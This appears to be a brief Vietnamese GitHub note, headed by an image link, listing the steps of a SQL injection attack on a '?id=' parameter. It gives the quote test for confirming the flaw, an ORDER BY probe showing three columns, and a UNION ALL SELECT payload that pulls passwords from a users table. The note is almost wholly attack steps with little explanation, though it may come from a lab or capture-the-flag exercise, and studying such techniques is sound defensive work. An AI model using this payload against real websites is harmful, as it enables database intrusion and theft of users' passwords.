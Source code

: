 tìm kiếm hổng để khác thác ( dạng: ?id=...)
thêm '=> xác nhận có tồn tại lỗ hổng
=> order by để kiểm tra => có 3 column
=> union all select 1,2,password from users-- -

